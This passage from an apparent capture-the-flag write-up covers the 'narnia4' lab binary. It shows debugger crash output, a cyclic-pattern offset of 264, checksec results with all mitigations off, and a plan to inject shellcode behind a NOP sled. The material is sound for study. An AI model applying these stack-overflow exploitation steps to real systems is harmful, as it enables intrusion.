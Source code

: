 Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x0       
$ecx   : 0xffffd7d0  →  "cwaacxaacyaac"
$edx   : 0xffffd4d3  →  "cwaacxaacyaac"
$esp   : 0xffffd4c0  →  "raacsaactaacuaacvaacwaacxaacyaac"
$ebp   : 0x63616170 ("paac"?)
$esi   : 0x2       
$edi   : 0xf7fc5000  →  0x001b2db0
$eip   : 0x63616171 ("qaac"?)
$eflags: [carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd4c0│+0x0000: "raacsaactaacuaacvaacwaacxaacyaac"	 ← $esp
0xffffd4c4│+0x0004: "saactaacuaacvaacwaacxaacyaac"
0xffffd4c8│+0x0008: "taacuaacvaacwaacxaacyaac"
0xffffd4cc│+0x000c: "uaacvaacwaacxaacyaac"
0xffffd4d0│+0x0010: "vaacwaacxaacyaac"
0xffffd4d4│+0x0014: "waacxaacyaac"
0xffffd4d8│+0x0018: "xaacyaac"
0xffffd4dc│+0x001c: "yaac"
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x63616171
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "narnia4", stopped, reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x63616171 in ?? ()
gef➤  patt off 0x63616171
[+] Searching '0x63616171'
[+] Found at offset 264 (little-endian search) likely
```
And let's check the enabled mitigations:
```
gef➤  checksec
[+] checksec for '/narnia/narnia4'
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
So, since we don't have canaryies, it makes sense for the offset to be at 264 (```buffer``` has 256 bytes, ```i``` has 4 bytes and the saved ```ebp``` has 4 bytes). Since ```NX``` is disabled we can also inject and execute our previous shellcode, let's look at the stack frame dump to estimate a possible entry point that we will follow with nops
```
gef➤  x/264bx $esp-264
0xffffd3b8:	0x62	0x61	0x61	0x61	0x63	0x61	0x61	0x61
0xffffd3c0:	0x64	0x61	0x61	0x61	0x65	0x61	0x61	0x61
0xffffd3c8:	0x66	0x61	0x61	0x61	0x67	0x61	0x61	0x61
0xffffd3d0:	0x68	0x61	0x61	0x61	0x69	0x61	0x61	0x61
0xffffd3d8:	0x6a	0x61	0x61	0x61	0x6b	0x61	0x61	0x61
0xffffd3e0:	0x6c	0x61	0x61	0x61	0x6d	0x61	0x61	0x61